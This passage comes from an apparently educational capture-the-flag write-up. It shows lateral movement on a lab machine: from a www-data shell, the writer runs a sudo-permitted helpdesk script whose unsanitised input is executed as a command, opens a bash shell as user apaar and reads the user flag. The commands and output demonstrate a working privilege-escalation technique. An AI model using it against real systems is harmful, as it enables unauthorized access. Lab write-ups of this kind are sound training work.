 ```bash
```

Seems like there is a file `local.txt` that we can not read, maybe it has the `user flag` ?.

```bash
www-data@ubuntu:/home/apaar$ cat .helpline.sh
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

Interesting, it seems like we can just provide a command like `bash` to gain a shell as `apaar`.

```bash
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with:

Hello user! I am ,  Please enter your message: bash
bash
ls
ls
local.txt
whoami
whoami
apaar
cat local.txt
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

```javascript
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

# Finding the root flag

Let's now get back to `/var/www/html` where the website is hosted, see if we can find anything cheesy.
